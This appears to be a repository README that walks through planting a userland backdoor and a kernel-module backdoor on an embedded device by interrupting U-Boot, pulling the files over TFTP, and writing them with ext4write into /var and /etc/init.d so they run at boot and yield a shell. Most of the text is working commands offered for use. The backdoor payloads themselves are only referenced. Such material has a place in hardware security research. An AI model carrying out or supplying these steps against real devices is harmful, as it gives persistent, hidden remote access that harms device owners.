 We can write our backdoor files on the file system disk of embedded device through U-Boot.  To do so, we must host them on a TFTP server.
(the examples are in this repo)  
So first we must upload them to our tftp server.  
Now, we reboot the embedded device and interrupt the uboot sequence which will drop us into the uboot console.  
we can view our DHCP address via `dhcp` and set the tftp ip via `setenv serverip <ipaddress>`  
Get memory addresses via `bdinfo` so we know where to store our files in memory.  
Now pull the files:  
```
tftp 0x63000000 servicex
tftp 0x64000000 S50servicex
```
After this, we write the files stored in memory to disk (REMEMBER to take note of the last arg, it will change so refer to the out put of tftp download):  
```
ext4write mmc 0:1 0x63000000 /var/servicex 0x5f
ext4write mmc 0:1 0x64000000 /etc/init.d/S50servicex 0x161
```
now reboot the device, let it boot and upon success you should receive your shell.

### FOR kernel backdoor:

same steps as above in addition to the below changes (the `.ko` file must be converted back from b64):
```
tftp 0x63000000 processenum.ko
tftp 0x65000000 S60kernel
```

```
ext4write mmc 0:1 0x63000000 /var/processenum.ko 0x1e1b8
ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
```
